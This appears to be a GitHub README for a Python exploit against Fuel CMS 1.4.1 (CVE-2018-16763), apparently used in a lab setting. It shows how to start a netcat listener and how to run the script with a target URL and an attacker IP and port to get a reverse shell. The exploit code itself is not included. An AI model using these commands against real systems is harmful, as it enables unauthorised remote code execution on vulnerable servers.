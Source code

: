 # Fuel-CMS-1.4.1 RCE   CVE-2018-16763
Fuel-CMS-1.4.1 using NC

Start a listener on a port of your choice. 

Example:

```
nc -lvnp 4444
```

Usage example:

```
python3 exploit.py <target-url> <attacker-ip> <attacker-port>
python3 exploit.py http://10.10.84.101 10.10.100.213 4444
```

![Screenshot 2025-04-02 160510](https://github.com/user-attachments/assets/9a1e9556-1b7e-4447-9348-9bd47882bd19)
